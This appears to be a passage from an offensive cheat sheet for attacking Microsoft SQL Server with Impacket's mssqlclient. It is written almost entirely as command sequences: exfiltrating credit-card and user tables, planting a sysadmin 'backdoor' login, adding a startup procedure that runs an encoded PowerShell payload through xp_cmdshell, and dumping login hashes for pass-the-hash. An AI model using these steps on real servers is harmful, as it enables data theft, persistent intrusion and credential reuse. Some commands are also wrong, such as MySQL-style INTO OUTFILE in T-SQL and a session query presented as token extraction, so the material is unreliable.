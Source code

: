 ### Data Exfiltration
```bash
# Step 1: Connect and identify sensitive databases
python3 mssqlclient.py sa:password@192.168.1.100
SQL> enum_db

# Step 2: Query sensitive data
SQL> USE CustomerDB  
SQL> SELECT TOP 10 * FROM CreditCards

# Step 3: Export data to files
SQL> SELECT * FROM Users INTO OUTFILE 'C:\temp\users.csv'

# Step 4: Download files locally
SQL> download C:\temp\users.csv
```

### Persistence Through MSSQL
```bash
# Step 1: Create backdoor user
python3 mssqlclient.py sa:password@192.168.1.100
SQL> CREATE LOGIN backdoor WITH PASSWORD = 'ComplexPass123!'
SQL> ALTER SERVER ROLE sysadmin ADD MEMBER backdoor

# Step 2: Create startup stored procedure for persistence
SQL> USE master
SQL> CREATE PROCEDURE sp_backdoor AS xp_cmdshell 'powershell.exe -enc <base64_payload>'
SQL> EXEC sp_procoption 'sp_backdoor', 'startup', 'true'

# Step 3: Test backdoor access
python3 mssqlclient.py backdoor:ComplexPass123!@192.168.1.100
```

### Hash Extraction from MSSQL
```bash
# Step 1: Connect with sysadmin privileges
python3 mssqlclient.py sa:password@192.168.1.100

# Step 2: Extract SQL Server login hashes
SQL> SELECT name, password_hash FROM sys.sql_logins

# Step 3: Extract Windows authentication tokens (if available)
SQL> SELECT * FROM sys.dm_exec_sessions WHERE is_user_process = 1

# Step 4: Use extracted information for further attacks
python3 mssqlclient.py -hashes :extracted_ntlm_hash domain.com/user@target
```

## Prerequisites
- Python 3.x with Impacket installed
- Valid MSSQL credentials (SQL Server or Windows authentication)
- Network access to MSSQL server (default port 1433)
- Understanding of SQL Server administration and security model
- Knowledge of T-SQL syntax for advanced operations
